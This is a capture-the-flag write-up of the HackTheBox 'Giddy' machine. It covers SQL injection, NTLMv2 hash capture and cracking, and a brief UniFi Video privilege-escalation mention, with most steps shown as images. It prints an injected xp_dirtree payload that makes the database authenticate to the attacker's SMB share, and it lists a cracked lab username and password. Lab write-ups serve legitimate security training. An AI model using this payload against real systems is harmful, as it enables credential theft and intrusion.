# Giddy -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Giddy (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-09-03

---

## TL;DR

### SQL injection on a product page allowed capturing an NTLMv2 hash via xp_dirtree, cracked it to get a shell as Stacy, then privesc through a Ubiquiti UniFi Video service hijack (required AV bypass).

---

## Enumeration















HTTPS:









---

## SQL injection

Tested with a single quote `'`:





Confirmed injection:



Used `xp_dirtree` to force NTLM authentication:

```
; EXEC master..xp_dirtree '\\10.10.14.93\test'; --
```

(URL-encoded in the request)



Cracked the NTLMv2 hash with john:



- `Stacy:xNnWo6272k7x`



---

## Privilege escalation

Process hijack related to UniFi Video found in Stacy's Documents directory. Followed 0xdf's writeup because it requires AV bypass with Ebowla.

---

## Lessons & takeaways

- SQL injection with `xp_dirtree` is an effective way to capture NTLMv2 hashes without needing direct command execution
- Always check for service-related files in user home directories for privesc clues
